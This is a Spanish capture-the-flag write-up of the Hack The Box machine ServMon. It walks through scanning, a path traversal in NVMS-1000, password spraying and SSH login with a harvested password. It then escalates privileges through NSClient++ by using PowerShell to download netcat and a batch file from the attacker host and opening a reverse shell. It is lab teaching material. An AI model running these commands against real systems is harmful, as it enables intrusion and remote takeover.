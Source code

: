 ```yaml
---
layout: post
author: Sergio Salgado
---
```


|     Iformation         |      Link          |
|:-----------------------|:-------------------|
| Name                   | ServMon            |
| Os                     | Windows            |
| Difficulty             | Easy               |
| Points                 | 0                  |
| IP                     | 10.10.10.184       |

## [](#header-2)Reconocimiento

Primero utilizaremos la herramienta que hace la identificación de conexión silenciosa y reconocimiento del sistema al que nos presentamos.

![Scan 1](/assets/images/ServMon/scan1.png)

### [](#header-3)NMAP   

El primer escaneo rápido con nmap, para poder agilizar mientras más búsquedas o búsqueda de vulnerabilidades sobre esos puertos.

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv 10.10.10.184
```

![nmap 1](/assets/images/ServMon/nmap1.png)

El segundo escaneo, ya un poco más profundo será:

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.184 -oG allPorts
```

![nmap2](/assets/images/ServMon/nmap2.png)

Después de tener los puertos, se puede hacer un escaneo ahora directo a los puertos con:

```s
sudo nmap -sCV -p21,22,80,135,139,445,5666,6063,6699,49664,49665,49666,49667,49668,49670 10.10.10.184 -oN targeted
```

![nmap 3.1](/assets/images/ServMon/nmap3.1.png)

En esta parte vemos en ftp el usuario Anonymus habilidato

![nmap 3.2](/assets/images/ServMon/nmap3.2.png)

![nmap 3.3](/assets/images/ServMon/nmap3.3.png)

Lo primero que podemos hacer es listar las tecnologias que existen en el navegador con whatweb.

![whatweb](/assets/images/ServMon/whatweb.png)

Lo segundo, como tenemos el usuario Anonymus en el servicio ftp, acceder a el y buscar usuarios. Encontramos a Nadine y Nathan. Dentro encontramos 2 archivos de texto que nos descargaremos.

![Confidencial](/assets/images/ServMon/confidential.png)

La contrasena de Nathan esta en su escritorio, la ha cambiado pero puede seguir activa en otro servicio.

![Notas](/assets/images/ServMon/notes.png)

Nathan no ha cargado las contrasenas, no ha removido el acceso publico a las NVMS que es el servicio web del puerto 80 y hay unos archivos confidenciales en sharepoint que podria ser el smb.

En la busqueda de mas informacion, buscamos que otras direcciones usan el NVMS-1000 con <a href="shodan.io">shodan</a>.

Ahora, con searchsploit vemos que existe un exploit para el NVMS 1000, para verlo mas a detalle usaremos:

```s
searchsploit -x Path
```

Vemos que el exploit lo que hace es listar los directorios con Path transversal /../../../, usaremos burpsuite para poder repetir rapidamente el response

![Burpsuite test](/assets/images/ServMon/burp1.png)

![/etc/hosts](/assets/images/ServMon/etc_hosts.png)

Ahora podemos ver las contrasenas que le dejaron a Nathan y procedemos a guardarlas en un credentials.txt.

![Passwords](/assets/images/ServMon/passwords_nathan.png)

A este punto, podemos usar smb para ver que contrasena es usable con el siguiente comando:

```s
crackmapexec smb 10.10.10.184 -u users -p credentials --continue-on-success
```

Una de las contrasenas hizo match con Nadine.

![Password matched](/assets/images/ServMon/password_matched.png)

El siguiente test que podemos hacer es con smbmap, para tratar de listar servicios compartidos, identificandonos con Nadine ahora:

```s
smbmap -H 10.10.10.184 -u 'Nadine' -p 'L1k3B1gBut7s@W0rk'
```

No nos es util el directorio al que tenemos acceso, asi que continuaremos enumerando posibles accesos.

![smbmap](/assets/images/ServMon/smbmap.png)

Podemos intentar tambien usar esta contrasena para acceder al servicio de ssh con:

```s
sshpass -p 'L1k3B1gBut7s@W0rk' ssh Nadine@10.10.10.184
```

![Nadine ssh](/assets/images/ServMon/nadine_ssh.png)

Y ahora podemos acceder a la flag sin problemas, con el comando type la leemos.

## [](#header-2)Escalamiento de privilegios

Para listar nuestros privilegios, podemos usar un:

```s
whoami /priv
net user nadine
```

Ingresamos al servicio NSClient++, el cual tiene exploit en searchsploit con remote execution. Y privilage escalation. 
Con el paso 1, hemos obtenido la contrasena de administrador del servicio.

![nc++ pass](/assets/images/ServMon/nc%2B%2B.png)

Para hacer un port forwarding y poder acceder al servicio, haremos un:

```s
sshpass -p 'L1k3B1gBut7s@W0rk' ssh Nadine@10.10.10.184 -L 8443:127.0.0.1:8443
```

De acuerdo a los pasos, lo siguiente es loggearnos y activar los modulos, que ya estaban activos
- CheckExternalScripts
- Scheduler

Despues nos crearemos un evil.bat y descargaremos<a href="https://eternallybored.org/misc/netcat/">netcat</a> para Windows

Ibamos a enviarnos el archivo mediante impack, pero aun no lo domino, asi que usare powershell para descargarme los archivos. En esta parte presente problemas con el netcat, supongo por que la funcion de powershell es un poco intrusiva. Con el wget el netcat se quedo en la maquina sin borrarse y pude continuar con todo.

```powershell
powershell invoke-WebRequest -UseBasicParsing 10.10.14.29/nc64.exe -OutFile nc.exe
powershell wget http://10.10.14.29/nc64.exe -outfile nc.exe

powershell invoke-WebRequest -UseBasicParsing 10.10.14.29/evil.bat -OutFile evil.bat
powershell wget http://10.10.14.29/evil.bat -outfile evil.bat
```

Nos vamos a poner en escucha en 

```s
sudo nc -nlvvp 443
```

Y nos vamos a settings>external script>script, seleccionamos el botton +Add new y ponemos lo siguiente:

![Command](/assets/images/ServMon/command.png)

Despues nos vamos a Queries y ejecutamos el comando que hemos agregado, aqui mismo visualizaremos los errores por si el .bat contiene alguno y poder darnos una idea mas clara de cual es el problema.

![Run](/assets/images/ServMon/run.png)

![Root](/assets/images/ServMon/root.png)

![Powned](/assets/images/ServMon/powned.png)